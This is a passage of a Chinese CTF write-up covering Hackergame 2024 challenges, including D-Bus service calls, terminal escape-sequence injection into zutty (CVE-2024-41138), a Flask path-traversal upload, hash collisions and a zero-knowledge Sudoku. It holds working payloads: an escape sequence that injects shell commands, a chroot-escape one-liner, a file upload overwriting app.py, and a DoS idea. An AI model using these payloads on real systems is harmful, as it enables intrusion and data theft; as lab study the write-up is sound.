注：题目附件见[官方题解仓库](https://github.com/USTC-Hackergame/hackergame2024-writeups/tree/master/official/%E4%B8%8D%E5%A4%AA%E5%88%86%E5%B8%83%E5%BC%8F%E7%9A%84%E8%BD%AF%E6%80%BB%E7%BA%BF)

### 初步分析

首先，这个《分布式》软总线并非什么复杂的嵌入式系统概念，也并非分布式。DBus 是广泛应用于 Linux 桌面环境应用中的一种高级 IPC 收发装置，也就是所谓的“事件总线”。

选手可以上传可执行程序在题目环境中执行。这道题考察的似乎是如何**使用** DBus 调用已有的服务，具体要求写在 `flagserver.c` 中。

#### 子任务 1

方法名为 `GetFlag1`，`flagserver` 可能返回的错误信息如下：

- `Give me a string, please.`
- `Use input 'Please give me flag1' to get flag1!`

结合其他代码可知，只要发送一个字符串参数 `"Please give me flag1"` 就可以获取 flag。

#### 子任务 2

方法名为 `GetFlag2`，错误信息如下：

- `Give me a file descriptor, please.`
- `I want a GUnixFDList but you don't give that to me :(`
- `Please don't give me a file on disk to trick me!`
- `Readlink of given FD failed.`
- `Cannot read from your file descriptor.`
- `Please give me file descriptor with that message to get flag!`

选手需要传递一个能够读出数据 `"Please give me flag2\n"` 的文件描述符（File Descriptor）。

#### 子任务 3

- `You shall use getflag3 to call me!`

选手不需要传递参数，但是服务会校验消息发送者的进程名是否是 `getflag3`。环境内置了一个 `getflag3` 程序（附件中包含源代码），能够正确调用方法获取 flag3，但成功获取后不会输出。

### 做法

首先我们要知道如何调用 DBus 上的方法。幸运的是，题目提供的 `getflag3` 源代码已经给出了一个非常简洁的示例，甚至写好了注释。核心语句是

```c
  // Call the D-Bus method
  result = g_dbus_connection_call_sync(connection,
                                       DEST,        // destination
                                       OBJECT_PATH, // object path
                                       INTERFACE,   // interface name
                                       METHOD,      // method
                                       NULL,        // parameters
                                       NULL,        // expected return type
                                       G_DBUS_CALL_FLAGS_NONE,
                                       -1, // timeout (use default)
                                       NULL, &error);
```

#### 子任务 1

首先要把方法名改成 `GetFlag1`。

```c
#define METHOD "GetFlag1"
```

然后要在 `parameters` 处传入一个字符串参数。上 GitHub 搜索包含 `g_dbus_connection_call_sync` 的代码，结合手里已有的 `flagserver` 代码，可以推测出应该这么写：

```c
g_variant_new ("(s)", "Please give me flag1", NULL),        // parameters
```

接下来一个坑是编译。如果直接用 `gcc --static -o getflag1 getflag1.c`，会出现找不到 `gio/gio.h` 的错误。事实上，题目提供的 `Makefile` 已经给出了正确编译命令的例子，

```make
getflag3: getflag3.c
    gcc getflag3.c `pkg-config --cflags --libs gio-2.0` -o getflag3
```

照样画葫芦就行了。由于我们使用题目提供的容器，环境一致性有所保证，所以编译可以不加 `--static` 静态链接了。

#### 子任务 3

尽管题目使用 `nobody:nogroup` 身份运行我们的程序，但默认情况下，系统的两个 `tmpfs` 对所有人都是可写入的，其中一个就是用来存放选手程序的 `/dev/shm`。题目的 `Dockerfile` 里也没有任何禁止写入的逻辑。

由题目附件不难得知，选手程序默认存放在 `/dev/shm/executable`。我们先在 `getflag3` 的代码前面加一段逻辑：如果 `argv[0]` 是 `/dev/shm/executable`，就将自己复制到 `/dev/shm/getflag3` 并运行，然后退出；否则，就继续正常执行。

```c
  printf(argv[0]);
  if(!strcmp("/dev/shm/executable", argv[0])) {
    system("cp /dev/shm/executable /dev/shm/getflag3");
    system("chmod +x /dev/shm/getflag3");
    system("/dev/shm/getflag3");
    return 0;
  }
```

上传文件后可以看到，程序确实成功执行了，输出了 `Get result but I won't show you :)`。

最后添加一个输出 `result` 的逻辑就行了。查阅 `GVariant` 相关文档得知可以这样提取字符串值并输出。

```c
    gchar *output;

    g_variant_get(result, "(&s)", &output);
    g_print(output);
```

#### 子任务 2

子任务 2 中选手需要传递一个文件描述符，并且还不能对应硬盘上的文件，那肯定只能是内存文件了。查阅文档得知，可以直接用 `memfd_create()` 创建一个内存文件描述符。根据 `flagserver` 代码，参数类型是 `(h)`。

```c
  printf("Creating fd.\n");
  int fd = memfd_create("flag2-20", 0);
  printf("Created memory file %d\n", fd);
  int fc = write(fd, msg, sizeof(msg));
  printf("Write bytes result %d\n", fc);

  // Call the D-Bus method
  result = g_dbus_connection_call_sync(connection,
                                       DEST,        // destination
                                       OBJECT_PATH, // object path
                                       INTERFACE,   // interface name
                                       METHOD,      // method
                                       g_variant_new ("(h)", fd_index, NULL),        // parameters
                                       NULL,        // expected return type
                                       G_DBUS_CALL_FLAGS_NONE,
                                       -1, // timeout (use default)
                                       NULL, &error);
```

但这样是没有用的。原因很简单：文件描述符描述的是**进程**所持有的资源，如果直接以整数形式发送给其他进程，当然是无效的。搜索“Linux send fd to another process”可以找到一些在 IPC 中传递文件描述符的方法，但是搜索“Send file descriptor via dbus”“Send file descriptor via gdbus”就很难找到有用的信息了。不妨问一下 LLM。提示词：

```plain
in[1]:
How could I send a file descriptor to another process in Linux

in[2]:
How do I send the file descriptor via DBus using g_dbus_connection_call_sync
```

第一个输入引导其先理解 file descriptor 传输问题，然后询问如何用 `g_dbus_connection_call_sync` 传递。LLM 给出了如下代码。

```c
GUnixFDList *fd_list = g_unix_fd_list_new();
int fd_index = g_unix_fd_list_append(fd_list, fd, &error);

if (fd_index == -1) {
    g_print("Error appending FD: %s\n", error->message);
    g_clear_error(&error);
    return;
}

g_dbus_connection_call_sync(connection,
                            "org.example.DBusService",  // Bus name
                            "/org/example/DBusObject",  // Object path
                            "org.example.DBusInterface",  // Interface name
                            "TransferFileDescriptor",   // Method name
                            params,
                            NULL,  // Expected return type
                            G_DBUS_CALL_FLAGS_NONE,
                            -1,
                            fd_list,
                            &error);
```

但这样会编译错误。因为倒数第二参数要的是 `GCancellable` 而不是 `GUnixFDList`。我们把错误信息再输入回去。

```plain
in[3]:
You cannot pass fd_list in that slot of g_dbus_connection_call_sync.
Here is the error: expected 'GCancellable *' {aka 'struct _GCancellable *'} but argument is of type 'GUnixFDList *' {aka 'struct _GUnixFDList *'}
```

这次 LLM 给出了正确的方法：`g_dbus_connection_call_with_unix_fd_list_sync`。

```c
// Call the DBus method with FD passing
g_dbus_connection_call_with_unix_fd_list_sync(
    connection,
    "org.example.DBusService",     // Bus name
    "/org/example/DBusObject",     // Object path
    "org.example.DBusInterface",   // Interface name
    "TransferFileDescriptor",      // Method name
    params,                        // Parameters
    NULL,                          // Expected return type (NULL if no reply expected)
    G_DBUS_CALL_FLAGS_NONE,        // No special call flags
    -1,                            // Timeout
    fd_list,                       // GUnixFDList to pass FDs
    NULL,                          // Location to store returned FD list (optional)
    NULL,                          // Cancellable (NULL for no cancellation)
    &error
);
```

这样我们的文件描述符就成功传递了，但是 `flagserver` 仍然无法读取到正确的消息。这是因为我们写入消息后，文件指针位于文末，当然无法继续读取，因此需要 `seek` 回开头。

```c
  lseek(fd, 0, SEEK_SET);
```

提交即可获得 flag2。

### Flags

```plain
flag{every_11nuxdeskT0pU5er_uSeDBUS_bUtn0NeknOwh0w_6ff7e677b1}
flag{n5tw0rk_TrAnSpaR5Ncy_d0n0t_11k5_Fd_c7b0ca9bc9}
flag{prprprprprCTL_15your_FRiEND_492ac93579}
```

Every Linux desktop user uses DBus but none know how.\
确实，我之前在日志里见过 dbus 但也没有深究它是什么

Network transparency do not like FD.\
确实，传递 FD 有点“量子隐形通信”了，就是不太能“分布式”（x\
最后英语要好。这里应该用 does not。

prCTL is your friend.\
啊？

子任务 3 最初的预期解是使用 prCTL 修改自己的进程信息。复制 payload 到 `getflag3` 也是另一个预期解。

<a name="psychological-war"></a>

### 花絮：比赛策略

这题我最初以为 DBus 真的是什么嵌入式系统的分布式总线，直到比赛第六天（周五）晚上我想要再找一道简单题捞一下分。检查了一下题单和排行榜，发现不对劲：这题怎么通过人数这么多而且几乎所有榜上靠前的人都做了？

一看附件，这题果真不考原理，只考怎么用。那不就简单了吗？读完附件逻辑后，我大概半小时左右就拿下了三个 flag。因此题解目录里写的完成时间是 `7-01:21`。

当时做这道题前，我的分数是 5400，在校内第四名。但是，当晚是比赛结束前的最后一个晚上，排行榜前面的竞争很激烈，分数变动非常快。


果不其然，做这题之后，我又被 **@lsy** 超过了，排名到了 5，再掉一点就没有二等奖了。如果我现在提交这 650 分，我的排名将一举到达 2，并且还会拿下 general 分类第一，但这么做势必会导致排行榜前几位更加没命地熬夜内卷（争夺二等奖或者分类第一），而我第二天上午要合唱团排练，现在不能再熬夜了，明天也没机会卷了。不如先装死。

于是三个文件被拷贝到了我手机上的 Download 里面。


第二天早上醒来一看统计图，好家伙，大家果然都在熬夜卷，普遍卷到了凌晨四五点（作为对比，前几天大概一点之后就不太有人提交了）。


_（此截图取自比赛结束后）_

那现在恐怕都在睡觉吧？我直接把三个 flag 交了，按照预期来到了第二名和 general 分类第一的位置。

上午，排行榜确实就没怎么变动了。我的判断是正确的。

至于大家为什么都是晚上熬夜白天睡觉，我理解：因为担心白天做题由于某些原因正好超过 12 点导致炸心态。而我的选择理由也很明确：错峰通行可以最大程度避免踩踏事故。

> 细节：在提交这个 flag 前，我把昵称 tag 改成了 `/runle cancel`，一小时后又改了回来。
>
> 至于这个 `/runle` 是什么——没错，就是“润了”。这是[我们 MC 服务端中添加的一条管理命令](https://github.com/rlc-longterm-survival/Modpack-ReLoadCraft3/blob/modpack-overrides/overrides/kubejs/server_scripts/runle.js)，可以用于显示倒计时并在倒计时结束后关闭服务器。即使使用 `/runle timer 0`，关服前仍然会有一秒的时间，并且可以 `cancel`。

## 22. 动画分享

为了给同学分享动画片，小 T 启动了自己之前用超安全的 Rust 语言写的 Web server，允许你访问「当前目录」的文件，当然了，flag 可不在当前目录。不过因为快到饭点了，小 T 还没来得及复制视频文件到对应的目录，于是就只在自己最常使用的、**几年前编译的某<del>祖传</del>终端模拟器**里面跑起了自己的 `fileserver`，然后就去锁屏吃饭了。

小 T：「诶，我不过就分享个文件，而且目录里面也没别的东西，所以没关系吧～而且我特地搞了个 chroot，就算我真写出了什么漏洞，你也休想看到我的 flag！」

请提交一个程序，题目环境会在模拟小 T 的环境运行之后，降权运行你的程序：

- 如果你能让小 T 的 `fileserver` 无法正常响应请求（例如让 `fileserver` 退出），你可以获得第一小题的 flag。
- 第二小题的 flag 在 `/flag2`，你需要想办法得到这个文件的内容。

环境限制总 PID 数为 64。

### 做法

Rust fileserver 的安全性我们暂且不质疑，况且人家还用了 `chroot`，就算路径拼接出了问题，还是拿不到 flag 的。但是，根据题目中的加粗文本，这题的意思显然是：只因一个祖传终端模拟器，这个超安全的 Rust 服务功亏一篑。

<a name="jit-learning"></a>

终端模拟器能出什么问题呢？我不到啊。那就现考现学一下。


搜到了一篇 [Don’t Trust This Title: Abusing Terminal Emulators with ANSI Escape Characters](https://www.cyberark.com/resources/threat-research-blog/dont-trust-this-title-abusing-terminal-emulators-with-ansi-escape-characters)，内容是说，如果攻击者有办法使终端模拟器中运行的程序输出某种包含换行符 `"\n"` 的 ANSI 转义序列，就能将一些特定内容发送到终端模拟器的输入缓冲区中，相当于直接以管理员的身份在终端模拟器里按键。作者声称这个漏洞在很多终端模拟器中都出现过。那应该就是了。

有没有办法让这个 fileserver 输出受我们控制的东西呢？有的。fileserver 会输出我们请求的第一行（也就是 `GET / HTTP/1.1` 这一行）。

```rust
println!("Received request: {}", request.lines().next().unwrap_or(""));
```

但是，不同终端模拟器里漏洞的具体复现方式有些区别。我们还是得搞清楚这题用的是哪个。看一眼 `Dockerfile`，

```dockerfile
# Start fileserver automatically in zutty :)
```

看来是 zutty。搜索“zutty vulnerability”，我们找到了 [CVE-2024-41138](https://bugs.gentoo.org/868495)，作者还给了一个附件用来复现：`cat` 这个附件就能让终端模拟器执行 `cat /etc/passwd`。


我们来分析一下结构。首先是 `"\x1bP$q\n"`，然后是要向终端中发送的东西，最后以 `"\n\x1b\\\n"` 结束。

众所周知，Ctrl-A 到 Ctrl-Z 在终端中分别对应于 ASCII 码 1 到 26。只要发送一个 `"\x03"`，就能直接向 fileserver 输入 Ctrl-C，让它自己关闭。

鉴于环境里有 Python，我们仿造 `server.py` 中的 `health_check`，写个发请求的程序传上去。**Windows 用户需要特别留意**，带有 shebang 的脚本换行符必须设置为 LF 而非 CRLF，否则 shebang 会被识别成 `"#!/usr/bin/python3\r"`，导致脚本无法执行。

```python
#!/usr/bin/python3

import time

evil_payload = "\x1bP$q\n\x03\x03\x03\n\x1b\\\n"
print(evil_payload)
# open("evil_payload.bin", "wb").write(evil_payload.encode('utf-8'))

import socket

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.settimeout(2.0)

sock.connect(("127.0.0.1", 8000))

request = f"GET /{evil_payload} HTTP/1.1\r\nConnection: keep-alive\r\n\r\n"
sock.sendall(request.encode("utf-8"))
print(sock.recv(8192).decode(errors='ignore'))
sock.close()
# time.sleep(1)

sock.close()

print('Payload send finished')
```

_（这里发了三个 Ctrl-C，不过无伤大雅）_

但是没有用。经本地测试，这是因为 fileserver 只会输出请求的**第一行**，因此 payload 里不能有换行符，否则会被截断。怎么办呢？用 `"\r"` 可以吗？

```python
evil_payload = "\x1bP$q\r\x03\x03\x03\r\x1b\\\r"
```

_Flag 发出了尖锐的爆鸣声：Wait noooooooo! My blazing fast rust fileserver!_

_我还是喜欢你刚刚自信满满声称肯定安全的样子，能恢复一下吗？_

既然已经能关掉 fileserver 了，那肯定还能执行别的命令。注意到选手程序并没有运行在 `chroot` 下，所以接下来只需要在 payload 里用 Python 表演一个有 root 权限情况下的 [chroot 逃逸](https://github.com/yezhiyi9670/hackergame2022-writeup/blob/master/solution/solution-pure.md#26-%E7%9C%8B%E4%B8%8D%E8%A7%81%E7%9A%84%E5%BD%BC%E6%96%B9-300)，并将 `/flag2` 复制到 `/tmp/flag2` 就行了。

```python
evil_payload = "\x1bP$q\r\x03python3 -c \"import os;os.chroot('usr');os.chdir('../..');os.chroot('.');open('/tmp/flag2','w').write(open('flag2').read())\"\r\x1b\\\r"

# ... and finally
print(open('/tmp/flag2', 'r').read())
```

_（注：这是没有仔细看 `Dockerfile` 导致的。实际上只有 fileserver 运行在 chroot 下，zutty 并没有，因此只需要写 `cp /flag2 /tmp/flag2` `chmod 777 /tmp/flag2` 就行了。）_

### Flags

```plain
flag{wa1t_no0O0oooO_mY_b1azIngfA5t_raust_f11r5erVer_16b6c2a40e}
flag{xterm_&_DECRQSS_in_2008_0NcE_morE_919ce004bc}
```

Wait noooooooo! My blazing fast rust fileserver!\
我还是喜欢你刚才桀骜不驯的样子。

xterm & DECRQSS in 2008 once more.\
没错，这个漏洞不止梅开二度，到现在为止已经梅开 N 度了（至于没什么这么容易出现，我目前还没有仔细考证过）。

### 其他做法

#### DoS 攻击

鉴于 fileserver 没有使用任何异步、多线程等方式处理请求，我们的 Python 程序只需要开一个子进程对它不停发请求，然后自己退出睡大觉就行了。这样，系统检测 fileserver 是否存活时，DoS 攻击仍然在持续。

不过这种方法无法获得 flag2。

### 拓展阅读

[官方题解指出](https://github.com/USTC-Hackergame/hackergame2024-writeups/blob/master/official/%E5%8A%A8%E7%94%BB%E5%88%86%E4%BA%AB/README.md)，ANSI 控制序列不止可以设置颜色、格式以及标题，甚至可以玩很多别的有趣的东西，例如显示图片、播放音乐。看起来非常好玩，值得试一试。

## 24. ~~关灯~~

_完成 3/4_

3D 版本的关灯游戏。

注：解决这道题不需要很多计算资源，一般的笔记本电脑都是可以完成任务的。最后一问传输数据量较大而且时限很短，为了避免网速的影响，使用了多阶段的题目下载与答案上传机制。

四个子任务的规模分别为：

1. 网格大小 $3^3$，时限 200s；
2. 网格大小 $5^3$，时限 200s；
3. 网格大小 $11^3$，时限 200s；
4. 网格大小 $149^3$，时限 10s。

### 做法

搜索“关灯游戏 算法”，可以找到[这篇文章](https://zhuanlan.zhihu.com/p/53646257)，讨论了 2D 版本关灯游戏的首行方程法，利用线性方程组求解，复杂度为 $n^3$。将相同思想用在 3D 版本上，改造为“首层方程法”，复杂度为 $n^6$，可以完成前三个子任务。

完整实现见[此处](./lights-off/solver.py)。

注意到无论输入如何方程中的矩阵部分都是不变的，只有等号右侧的向量在变。通过某些预处理可以或许可以快速求解，进而完成第四个子任务。但是，这种预处理似乎并不能靠简单地将右侧向量设为一个未知量或者未知矩阵来完成。

### Flags

```plain
flag{bru7e_f0rce_1s_a1l_y0u_n3ed_f60044436b}
flag{prun1ng_1s_u5eful_9e4e5dbc19}
flag{lin3ar_alg3bra_1s_p0werful_27d4edf1e6}
```

Brute force is all you need.\
对应于完全穷举法。

Pruning is useful.\
对应于带剪枝的完全穷举法，或者是首层穷举法

Linear algebra is powerful.\
正是在下。

第四个子任务的预期解是对矩阵提前进行 PLU 分解。当然，也有人提出了从方程推断过程中进行优化的方法，不过二者应该没有本质区别。

## 25. 禁止内卷

**（以下剧情均为虚构，请助教和学生都不要模仿！）**

XXX 课程实验一内容：

> ...

但是这周的实验和作业实在是太多了，太多了，太多了。而且和你同班的有至少 114 个卷王。你刷新着榜单网站，看到榜一越来越小的平方差，陷入了绝望。

不过你的舍友好像之前说他帮这门课助教写了个啥东西（没有加分），好像就是这个网站。你私聊问他要到了源代码，白盒审计的时候发现了不得了的事情……你发现，你不仅可以拿到答案，而且可以搞点破坏，让各位卷王不要再卷了！

本题的 flag 位于评分数据**原始 JSON 文件**的列表头部，将对应的数字加 65 后使用 ASCII 编码转换后即为 flag 文本。

这是你从舍友那里获取到的网站主要代码文件：

**题目源代码：...**（[详见官方题解仓库](https://github.com/USTC-Hackergame/hackergame2024-writeups/blob/master/official/%E7%A6%81%E6%AD%A2%E5%86%85%E5%8D%B7/README.md)）

提示：助教部署的时候偷懒了，直接用了 `flask run`（当然了，助教也读过 Flask 的文档，所以 DEBUG 是关了的）。而且有的时候助教想改改代码，又懒得手动重启，所以还开了 `--reload`。启动的**完整命令**为 `flask run --reload --host 0`。网站代码运行在 `/tmp/web`。

### 做法

这是一个用户可以选择上传 JSON 文件的页面，上传后会显示评测得分，并添加到排行榜里。攻击方式应该就是精心构造一个恶意文件上传请求。我们先看看文件上传处理逻辑。

```python
UPLOAD_DIR = "/tmp/uploads"

@app.route("/submit", methods=["POST"])
def submit():
    if "file" not in request.files or request.files['file'].filename == "":
        flash("你忘了上传文件")
        return redirect("/")
    file = request.files['file']
    filename = file.filename
    filepath = os.path.join(UPLOAD_DIR, filename)
    file.save(filepath)
```

看来，用户提交会被存到 `f"/tmp/uploads/{filename}"` 处。注意到这里 `filename` 是由用户控制的，而且没有过滤 `..`。结合题目中网站运行在 `/tmp/web` 并且开了 auto-reload 的提示，应该要利用这个漏洞来覆盖网站的代码，从而窃取答案文件。

我们先搜索一下 auto-reload 机制：模板文件不一定会立刻 reload，但是 `app.py` 有更改一定会立刻 reload。所以我们要覆盖 `app.py`。先魔改一下 `app.py`，使其在主页直接输出答案。

```python
@app.route("/", methods=["GET"])
def index():
    return json.dumps(open("answers.json").read())
    # return render_template("index.html", results=sorted(results))
```

然后利用抓包工具把这个文件以文件名 `../web/app.py` 上传上去。构建的请求（不包括首行）见[此处](./no-convolving/payload.txt)。刷新页面，立刻看到了答案文件。

存下来解析一下，就拿到了 flag。

```python
''.join([
    chr(65 + c) for c in data
])
```

### Flag

```plain
flag{uno!!!!_esrever_now_U_run_MY_c0de83ced2246c}
```

Uno! Your server now run my code!

你可能好奇，`open("answers.json").read()` 已经是字符串了，为什么 payload 里面会写 `json.dumps(open("answers.json").read())` 呢？因为这个位置本来写的是 `json.dumps(get_answer())`。但是，题目的要求是“flag 位于评分数据**原始 JSON 文件**的列表头部”，而 `get_answer` 函数内部已经将负值全部都改成 0 了，因此这样获得的 flag 是错误的：

```plain
flag{unoAAAA_esrever_now_U_run_MY_cAdeAAcedAAAAc}
```

后来改的时候忘记删掉 `json.dumps` 了。

### 不可行的做法

#### 反复提交 JSON 试探答案

正因为 `get_answer` 函数内已经删除了 `answers.json` 中的部分必要信息，直接试探答案不能拿到原始的数据，也就无法还原 flag。

## 26. ~~哈希三碰撞~~

_完成 1/3_

### 做法

题目附件中包含两个二进制文件，正是选手打开 `nc` 时会运行的。用 IDA 逆向第一个二进制文件，查看[伪代码](./three-hash-collision/1-main.c)，并简单计算地址后可以知道，任务是构建三个 16 字符的十六进制串，使得它们对应的二进制数据 SHA-256 的后四个 byte（也就是 8 个十六进制位）恰好一致。

这种局部哈希碰撞当然也需要暴力计算才能获得，因此常常被用作区块链的 proof of work。区块链上或许可以找到这些答案。不过第一个子任务只允许 8 字节数据，恐怕区块链上找就没什么用了，还得我们亲自暴力计算。

后八个 byte 只有 $2^{32}$ 种可能，暴力计算还是非常可行的。不过，要是钦定一个 hash，让程序找三个能碰撞上这个 hash 的串，还是有点慢的（用 C++/Rust 写应该速度可以接受，用 Python 肯定完全不能）。不过，我们可以采用 Birthday Attack，让程序把所有目前生成过的串以及 hash 都存下来，一旦出现三个一样的 hash 就直接输出。

```python
import random
import hashlib

def tailhash(b: bytes):
    hash_object = hashlib.sha256()
    hash_object.update(b)
    dig = hash_object.hexdigest()
    return dig[28*2:32*2]

mp = {}
times = 0
record = 0
while True:
    times += 1
    if (times & 16777215) == 0:
        print('T:', times >> 24)
    
    b1 = random.randbytes(8)
    h1 = tailhash(b1)
    
    mp.setdefault(h1, set())
    S = mp[h1]
    S.add(b1)
    
    if len(S) > record:
        record = len(S)
        print(f'Made record {record} at {h1}')
    
    if len(S) >= 3:
        for b in S:
            print(f"{b.hex()} -> {tailhash(b)}")
        exit()
```

这个程序不到 10s 就能找到三碰撞。

```plain
8c7f8b88041898e2 -> d7abff33
25d34136cd470b42 -> d7abff33
82e0b442c2ebdef3 -> d7abff33
```

很幸运，直接输进去就能对，没有字节序问题。

第二个二进制文件有些复杂，暂时先去做别的题，不花时间读了。里面似乎涉及了反复添加 hash 的操作，可能需要去区块链上找答案了。

### Flag

```plain
flag{341642dbbbdb68f9569336f49b142f}
```

是否是经过十六进制编码的某种文本？看起来不像。

官方预期解中提出可以让 AI 帮忙阅读逆向伪代码，转换为 Python。看来我还是太保守了。要是想到这一点，说不定真能做出来（毕竟想到区块链了）。

## 27. 零知识数独

一款全新的零知识数独！你已然是数独高手，也终将成为零知识证明大师！

> "If the proof is correct, then no other recognition is needed."
>
> — by Grigori Perelman

你的证明在本地需要满足：

```plain
$ snarkjs groth16 verify verification_key.json public.json proof.json
[INFO]  snarkJS: OK!
```


### 做法

零知识证明是什么呢？看起来像是什么计算机自动证明的内容？

并不是。零知识证明是一种协议，证明者无需向见证者透露任何有用信息就能完成证明（例如证明自己知道某种神秘咒语）。具体而言：

- 见证者在与证明者交互之前就能完全预料交互应当怎样发生，因此证明者进行交互并不会传达任何有用信息。\
  也正因如此，见证者将证明过程的录像发给别人，并不能构成对证明的有效转述，因为整个证明过程都是见证者可预料的，证明者可以声称自己并不知道神秘咒语，只是和见证者彩排过了。
- 不知道神秘咒语的人如果没有和见证者彩排，作弊成功的概率可以忽略不计。

[Wikipedia 上有一些通俗的解释](https://zh.wikipedia.org/wiki/%E9%9B%B6%E7%9F%A5%E8%AF%86%E8%AF%81%E6%98%8E)。

#### 子任务 1

子任务 1 和零知识证明没有半毛钱关系，只要点 Play Sudoku 做完四个不同难度的数独就可以获得 flag。


这里 Hint Mode 可以在点击格子的时候直接揭示答案，但使用次数有限。

用数独求解器求解还是太麻烦了。我们注意到，无论点击 Submit, HintMode 还是 Regenerate，网页都不会给服务器发请求。看来逻辑是客户端处理的。我们找到 JavaScript 文件，


有 Minify，但没有刻意混淆。

搜索 HintMode 耗尽时以及在 HintMode 耗尽后试图打开时弹出的两句提示：

- `HintMode exited. No more hints available.`
- `No more hints available.`

```js
f + 1 >= t[e] && (y(!1),
d("HintMode exited. No more hints available."),
k(!0))
```

```js
d("HintMode exited.")) : f < t[e] ? (y(!0),
d("You are now in HintMode. Click on any empty cell to reveal the solution. Click HintMode button again to exit.")) : d("No more hints available."),
```

**转到 Pretty Print 之前的原始代码**修改判断逻辑移除限制。注意 DevTools 不支持临时修改通过 ES Module 加载的脚本，但是没关系，可以用抓包工具修改响应。

接下来只需要打开 Hint Mode 把每个数独点满提交就行了。


#### 子任务 2

子任务 2 还是数独界面，但是点 Submit 会要求用户上传 JSON，也就是通过零知识证明来证明自己做出了数独。

简单搜索一下 [SnarkJS](https://github.com/iden3/snarkjs) Groth16 怎么用，然后把数独用求解器做出来，生成证明就行了。

```js
import * as snarkjs from 'snarkjs'
import * as fs from 'fs'

const { proof, publicSignals } = await snarkjs.groth16.fullProve(
  {
    unsolved_grid: [
      [0, 0, 0, 7, 0, 4, 2, 0, 0],
      [5, 0, 0, 0, 0, 0, 3, 0, 0],
      [0, 7, 0, 0, 0, 0, 0, 0, 8],
      [0, 0, 8, 0, 0, 1, 0, 0, 0],
      [0, 0, 3, 0, 2, 8, 0, 0, 0],
      [6, 5, 9, 0, 0, 0, 0, 0, 0],
      [0, 0, 0, 8, 0, 0, 0, 9, 6],
      [0, 3, 0, 0, 9, 0, 0, 5, 0],
      [0, 0, 0, 0, 6, 0, 0, 0, 0]
    ],
    solved_grid: [
      [9,8,1,7,3,4,2,6,5],
      [5,6,4,2,8,9,3,1,7],
      [3,7,2,5,1,6,9,4,8],
      [7,2,8,9,5,1,6,3,4],
      [1,4,3,6,2,8,5,7,9],
      [6,5,9,3,4,7,1,8,2],
      [2,1,5,8,7,3,4,9,6],
      [8,3,6,4,9,2,7,5,1],
      [4,9,7,1,6,5,8,2,3]
    ]
  },
  "sudoku.wasm", 
  "sudoku.zkey");
console.log(publicSignals);
console.log(proof);
fs.writeFileSync('public.json', JSON.stringify(proof))
fs.writeFileSync('proof.json', JSON.stringify(proof))
```

这个证明似乎在本地过不了验证，可能是 `public.json` 的保存方式不太对。但是上传后能过。

子任务 3 给了一个无解的数独，想要证明，应该要利用零知识证明的漏洞（漏洞大概率是来自那个电路而非 SnarkJS）。但是，电路中似乎看不出什么问题。

### Flags

```plain
flag{SUD0KU_M45T3R_You_Have_Shown_Y0ur_Know1edge_ac5207a9}
flag{you_are_a_5udoku_expert_and_pr0ved_your_kn0wledge_859c7f3933}
```

Sudoku master, you have shown your knowledge!

You are a sudoku expert and proved your knowledge.

根据赛后民间的说法（官方题解也提到了），电路的问题在于验证每个网格值是否大于 0 时采用的赋值方式，

```plain
      gt_zero_signals[i][j] <-- (solved_grid[i][j] > 0);
      gt_zero_signals[i][j] === 1;
```

据称，`<--` 只是对证明者的提示，而非完成证明所必需的要求。当然，如果违反这个提示，SnarkJS 是会报错的。这时自己重新编译一个魔改过的电路就能完成证明。

仔细一想，这并非是 ZK 高手才能发现。只要仔细观察，就能发现电路中所有赋值用的都是 `<==`，唯独这一处是 `<--`。可惜我当时没有多想。 大  腿  拍  断

## 34. ~~[redacted]~~

_完成 1/2_

原标题：先不说关于我从零开始独自在异世界转生成某大厂家的 LLM 龙猫女仆这件事可不可能这么离谱，发现 Hackergame 内容审查委员会忘记审查题目标题了ごめんね，以及「这么长都快赶上轻小说了真的不会影响用户体验吗🤣」

> 以下内容包含 Human 辅助创作

emmmmm 这次事件的背景大概如题所示。具体而言，在某位不幸群友转生成了 [Qwen 2.5-3B](https://modelscope.cn/models/qwen/Qwen2.5-3B-Instruct-GGUF)（还是 8-bit 量化的）后，毫无人道主义关怀的出题人们使用各种超越碳基生物（以及硅基生物）想象力的提示词对其进行了花样繁多的调戏。为了表达自己的不满，这位可怜的 LLM 只好锲而不舍地输出一些关于 Hackergame 的胡话。幸好 Hackergame 内容审查委员会提前部署了分级的内容审查系统（详见题目附件），比如把和 `hackergame` 相关的字符全部屏蔽成 `'x'` 了：

--

<div style="word-break: break-all;" markdown="1">

In txx xxxnd xxll of Hxxxxxxxxx 2024, wxxxx txx wxlls xxx linxd witx sxxxxns sxowinx txx lxtxst xxploits fxox txx xybxx woxld, xontxstxnts xxtxxxxd in x fxxnzy, txxix xyxs xluxd to txx vixtuxl xxploits. Txx xtxospxxxx wxs xlxxtxix, witx txx sxxll of fxxsxly bxxwxd xoffxx xinxlinx witx txx sxxnt of buxnt Etxxxnxt xxblxs. As txx fixst xxxllxnxx wxs xnnounxxd, x txxx of xxxxxxs, dxxssxd in lxb xoxts xnd xxxxyinx lxptops, spxintxd to txx nxxxxst sxxvxx xoox, txxix fxxxs x xix of xxxitxxxnt xnd dxtxxxinxtion. Txx xxxx wxs on, xnd txx stxxxs wxxx xixx, witx txx ultixxtx pxizx bxinx x xoldxn txopxy xnd txx bxxxxinx xixxts to sxy txxy wxxx txx bxst xt xxxxxinx xodxs xnd xxxxinx systxxs in txx lxnd of txx xisinx sun.

</div>

--

嘛说实话这个审查系统似乎确凿是强了些（虽然它没审查题目标题），所以如果你一定想阅读原文的话估计得自己想办法了。

### 做法

子任务 1 给的文件就是题面上的这个，以及审查前的 sha256。附件中的其他代码显示，审查过程是将 `hackergame` 字符替换为 `x`。如果能还原原文，利用其 sha512 就能获得 flag。

~~首先英语一定要好~~，所以我们先自己解密一下：

> In the grand hall of Hackergame 2024, where the walls are lined with screens showing the latest exploits from the cyber world, contestants xxtxxxxd in a frenzy, txxix xyxs glued to the virtual exploits. The atmosphere was xlxxtxix, with the sxxll of fxxsxly brewed coffee xinxlinx with the sxxnt of buxnt Ethernet cables. As the first challenge was announced, a team of hackers, dressed in lab coats and xxxxyinx lxptops, sprinted to the nearest server room, txxix fxxxs x xix of xxxitxxxnt xnd dxtxxxinxtion. The game was on, and the stxxxs wxxx xixx, with the ultimate prize being a golden trophy and the breaking xixxts to sxy txxy wxxx the best at xxxxxinx xodxs and xxxxinx systems in the land of the rising sun.

接下来就不会了，那丢给 LLM。为避免 Tokenization 对 LLM 造成误导，我们将 `x` 换成 `?`。提示词：

> Here is a partly obfuscated paragraph where each question mark (?) may be one of the following characters: a c e g h k m r
>
